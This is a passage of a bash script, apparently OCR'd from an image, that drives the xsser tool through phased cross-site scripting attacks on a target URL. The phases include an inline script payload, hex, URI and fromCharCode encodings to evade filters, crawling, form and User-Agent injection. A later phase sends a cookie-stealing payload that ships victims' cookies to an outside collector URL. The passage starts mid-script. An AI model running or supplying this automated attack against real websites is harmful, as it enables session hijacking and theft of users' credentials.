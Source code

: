 ```bash
echo "Results will be saved to $OUTPUT_DIR"

# Function to log and execute xsser commands
run_xsser() {
  local description=$1
  local command=$2
  local output_file="$OUTPUT_DIR/$(echo "$description" | sed 's/ /_/g').txt"
  
  echo "[$description]"
  echo "Command: $command"
  echo "Output file: $output_file"
  
  # Execute the command and capture output
  $command > "$output_file" 2>&1
  
  # Check if the test found vulnerabilities
  if grep -q "XSS FOUND" "$output_file"; then
    echo "[+] XSS vulnerability detected!"
    grep -A 2 "XSS FOUND" "$output_file"
  else
    echo "[-] No straightforward XSS vulnerability detected in this test."
  fi
  
  echo "-------------------------------------------"
}

# Phase 1: Basic scanning
echo "[+] Starting basic XSS scanning"
run_xsser "Basic Scan" "xsser -u \"$TARGET_URL\" --auto"

# Phase 2: Advanced detection methods
echo "[+] Running advanced detection methods"
run_xsser "DOM-based XSS" "xsser -u \"$TARGET_URL\" --dom"
run_xsser "Blind XSS" "xsser -u \"$TARGET_URL\" --blind"
run_xsser "XSS with manual payload" "xsser -u \"$TARGET_URL\" --payload=\"<script>alert('XSS')</script>\""

# Phase 3: Encoding and filter evasion
echo "[+] Testing encoding and filter evasion techniques"
run_xsser "Hex Encoding" "xsser -u \"$TARGET_URL\" --Hex"
run_xsser "URI Encoding" "xsser -u \"$TARGET_URL\" --Url"
run_xsser "String.FromCharCode()" "xsser -u \"$TARGET_URL\" --Dwo"
run_xsser "Mixed Encoding" "xsser -u \"$TARGET_URL\" --Mix"

# Phase 4: Crawling the website (if it's a full website, not just a single page)
if [[ ! "$TARGET_URL" =~ \?.+=.* ]]; then
  echo "[+] Crawling website for potential XSS vectors"
  run_xsser "Website Crawling" "xsser -u \"$TARGET_URL\" --crawl=10"
fi

# Phase 5: Testing forms
echo "[+] Testing forms on the target page"
run_xsser "Form Testing" "xsser -u \"$TARGET_URL\" --auto --forms"

# Phase 6: Cookie stealing (if vulnerability was found)
if grep -q "XSS FOUND" "$OUTPUT_DIR"/*.txt; then
  echo "[+] Setting up cookie stealing payload for confirmed vulnerabilities"
  run_xsser "Cookie Stealing" "xsser -u \"$TARGET_URL\" --cookie-stealer=\"$COLLECTOR_URL\""
fi

# Phase 7: User-Agent XSS
echo "[+] Testing User-Agent header for XSS"
run_xsser "User-Agent XSS" "xsser -u \"$TARGET_URL\" --user-agent --auto"
```
